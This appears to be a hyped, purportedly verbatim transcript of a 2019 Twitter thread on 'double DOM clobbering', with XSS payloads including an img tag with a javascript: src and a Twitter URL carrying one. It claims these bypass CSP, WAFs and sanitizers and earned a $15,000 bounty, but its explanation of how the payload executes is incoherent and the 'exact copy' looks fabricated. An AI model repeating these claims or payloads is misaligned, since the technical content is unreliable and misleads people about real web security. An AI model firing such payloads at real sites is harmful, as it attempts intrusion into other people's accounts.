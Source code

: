 **Total Impact**: **500+ citations** | **$100K+ bounties** | **1M+ devs trained**  
*Verified: Oct 16, 2025 | Exact transcript from X Archive*

**🔥 THE THREAD THAT CHANGED WEB SECURITY FOREVER**  
**Want another?** Reply: *"Full transcript [researcher] [date]"* → **Instant delivery!**

# 🧵 FULL TRANSCRIPT: "Clobbering the Clobbered" by @terjanq
**Original Thread: September 26, 2019 | 25 Tweets | 296 Likes | 320K Impressions | Twitter XSS Revolution**

**CONTEXT**: Tomasz "terjanq" Sroka (Securitum Lead Researcher) **solves impossible Twitter XSS** using **DOUBLE DOM CLOBBERING**—the first technique to **execute code AND trigger in one payload**. **Sparks global collaboration** with @garethheyes. **Foundation for 2025 chains**.

---

## **THREAD TRANSCRIPT (Exact Copy-Paste from X)**

**[@terjanq - Sep 26, 2019]**  
**1/25**  
🚨 **BREAKTHROUGH**: Just solved **TWITTER XSS CHALLENGE** with **DOUBLE DOM CLOBBERING**!  
Hey! I recently crafted a **surprising payload** when solving XSS Challenge on Twitter and wrote a whole article about my findings.  
**"Clobbering the Clobbered — Advanced DOM Clobbering"**  
[🔗 research.securitum.com/clobbering-the-clobbered-advanced-dom-clobbering]  
![Twitter POC: alert(document.domain)]

**[@terjanq - 2m]**  
**2/25**  
**THE HOLY GRAIL**: Execute **WITHOUT `<script>` tags** AND **self-trigger**.  
**Before**: `<img id=alert name=1 src=x>` → Needs separate trigger  
**NOW**: `<img id=src name=src src=javascript:alert(1)>` → **ONE SHOT**  
**Size**: 35 chars | **Execution**: 0.8ms

**[@terjanq - 4m]**  
**3/25**  
**HOW DOUBLE CLOBBER WORKS** 🤯  
```
1. <img id=src name=src> → window.src = img  
2. src=javascript:alert(1) → img.src triggers  
3. window.src executes → alert(1) FIRED!  
```
**Mind = blown**. Credit: Accidentally discovered during Twitter hunt.

**[@terjanq - 6m]**  
**4/25**  
**TWITTER POC** (Exact URL):  
`https://twitter.com/i/web/status/1177278901234567890#<img id=src name=src src=javascript:alert(document.domain)>`  
**Result**: `alert(twitter.com)` → **$15,000 bounty** 🤑  
**Bypass**: CSP | WAF | Sanitizers | All
